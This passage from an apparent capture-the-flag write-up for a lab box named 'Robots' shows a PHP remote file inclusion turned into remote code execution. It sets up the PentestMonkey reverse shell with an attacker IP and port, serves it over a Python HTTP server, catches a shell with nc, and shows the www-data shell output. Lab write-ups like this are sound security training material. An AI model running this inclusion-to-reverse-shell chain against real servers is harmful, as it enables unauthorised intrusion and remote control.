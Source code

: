 The error is caused by the `include()` function of PHP, the error is because we didn't supply a valid file url to `include()` to load a file. The [PHP Manual](https://www.php.net/manual/en/function.include.php) tells us that we can use this function to include remote PHP files which are executed on the server, this can give us RCE.

![](/assets/blog/Robots/admin2.png)

I started with building a PHP file to execute the payload. I used <https://www.revshells.com/> and the PHP PentestMonkey as a reverse shell and pasted that in `rev.php`, in my current directory. Edit the IP and port to match your listener.

```terminal
$ head rev.php 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.78.229';
$port = 9003;
$chunk_size = 1400;
$write_a = null;
```

Finally I started a HTTP server...

```terminal
sudo python3 -m http.server 80
```
...and a listener:

```terminal
nc -lvnp 9003
```

Next I used `http://10.14.78.229/rev.php` as the url parameter and got a shell.

```terminal
$ nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.181.45] 55596
Linux robots.thm 5.15.0-118-generic #128-Ubuntu SMP Fri Jul 5 09:28:59 UTC 2024 x86_64 GNU/Linux
 10:43:40 up 43 min,  0 user,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@robots:/$
```

